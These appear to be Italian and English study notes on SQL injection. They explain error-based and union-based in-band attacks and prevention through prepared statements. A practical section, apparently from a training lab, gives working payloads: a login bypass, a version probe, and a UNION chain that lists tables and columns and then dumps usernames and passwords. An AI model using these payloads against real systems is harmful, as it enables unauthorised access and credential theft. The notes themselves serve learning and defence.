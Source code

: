 # Sql Injection


L'SQL injection è una tecnica di attacco informatico che sfrutta le vulnerabilità nelle applicazioni web che interagiscono con un database. Questo tipo di attacco consente a un malintenzionato di inserire o "iniettare" codice SQL malevolo in una query SQL, con l'obiettivo di manipolare il database in modi non autorizzati.

Vulnerabilità: L'SQL injection si verifica quando un'applicazione web non valida correttamente i dati forniti dall'utente. Ad esempio, se un'applicazione accetta input da un modulo di login senza filtrare o sanificare i dati, un attaccante può inserire codice SQL.



Esempio di attacco: Supponiamo che un'applicazione utilizzi una query SQL simile a questa per autenticare un utente:


```
SELECT * FROM utenti WHERE username = 'input_utente' AND password = 'input_password';
```

Se un attaccante inserisce come nome utente admin' --, la query diventa:

```
SELECT * FROM utenti WHERE username = 'admin' --' AND password = 'input_password';
```
In questo caso, il -- commenta il resto della query, quindi l'attaccante riesce ad accedere come utente "admin" senza conoscere la password.

Conseguenze: Gli attacchi di SQL injection possono portare a vari problemi, tra cui:<br>
Accesso non autorizzato ai dati sensibili.<br>
Modifica o cancellazione di dati nel database.<br>
Esecuzione di comandi di sistema sul server.<br>
Esfiltrazione di dati riservati.<br>

Prevenzione: Per proteggere le applicazioni da attacchi di SQL injection, è importante:
Utilizzare query parametrizzate o prepared statements, che separano i dati dal codice SQL.
Validare e sanificare sempre l'input dell'utente.
Implementare controlli di accesso adeguati e monitorare le attività sospette.


________________________________


## In band Sql Injection


L'In-Band SQL Injection è una delle forme più comuni di attacco SQL injection, in cui l'attaccante riesce a ottenere informazioni dal database attraverso il canale di comunicazione già utilizzato per inviare le richieste. In altre parole, l'attaccante sfrutta la stessa connessione per inviare comandi SQL malevoli e ricevere i risultati.


Ci sono due sottotipi principali di In-Band SQL Injection:

1. **Error-Based SQL Injection**: In questo caso, l'attaccante provoca un errore nel database che rivela informazioni utili. Ad esempio, se l'attaccante inserisce un input progettato per generare un errore, il messaggio di errore restituito dal database può contenere dettagli sulla struttura del database, come nomi di tabelle o colonne. Questo tipo di attacco è utile per raccogliere informazioni sul database.

   **Esempio**: Se l'attaccante inserisce un input come `1' AND 1=CONVERT(int, (SELECT @@version)) --`, il database potrebbe restituire un errore che rivela la versione del database in uso.

2. **Union-Based SQL Injection**: Questo tipo di attacco sfrutta l'operatore `UNION` per combinare i risultati di più query. L'attaccante può utilizzare questa tecnica per estrarre dati da altre tabelle nel database. Per farlo, l'attaccante deve conoscere il numero di colonne nella query originale e il tipo di dati che ciascuna colonna restituisce.

   **Esempio**: Se l'applicazione originale esegue una query come `SELECT nome, email FROM utenti WHERE id = 1`, l'attaccante potrebbe iniettare un input come `1 UNION SELECT username, password FROM admin --`. Questo restituirebbe i nomi utente e le password dalla tabella "admin".

### Prevenzione dell'In-Band SQL Injection

Per proteggere le applicazioni da attacchi di In-Band SQL Injection, è fondamentale adottare le seguenti misure:

- **Utilizzare Prepared Statements**: Le query parametrizzate separano i dati dal codice SQL, riducendo il rischio di iniezione.
- **Sanificare l'Input**: Validare e filtrare sempre i dati forniti dagli utenti per rimuovere caratteri pericolosi.
- **Limitare i Messaggi di Errore**: Non rivelare informazioni dettagliate sugli errori del database agli utenti finali, poiché possono fornire indizi utili agli attaccanti.
- **Implementare Controlli di Accesso**: Assicurarsi che solo gli utenti autorizzati possano accedere a determinate informazioni o funzionalità.


## Pratical 


The key to discovering error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).


Try typing an apostrophe ( ' ) after the id=1 and press enter. And you'll see this returns an SQL error informing you of an error in your syntax. The fact that you've received this error message confirms the existence of an SQL Injection vulnerability. We can now exploit this vulnerability and use the error messages to learn more about the database structure.


```
https://website-example.com/article?id=1 UNION SELECT 1
```
La parte UNION SELECT 1 è ciò che rende questa query un tentativo di SQL injection.<br><br>

UNION: L'operatore UNION combina i risultati di due o più query SELECT. Per funzionare correttamente, le query devono avere lo stesso numero di colonne e tipi di dati compatibili.<br>
SELECT 1: Questa parte della query seleziona semplicemente il valore 1. Non specifica alcuna tabella, quindi non sta cercando di estrarre dati da una tabella esistente.<br><br>


we'll get the database name that we have access to:
```
https://website-example.com/article?id=0 UNION SELECT 1,2,database()
```

Our next query will gather a list of tables that are in this database.
```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```


We can utilise the information_schema database again to find the structure of this table using the below query.
```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.

```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```



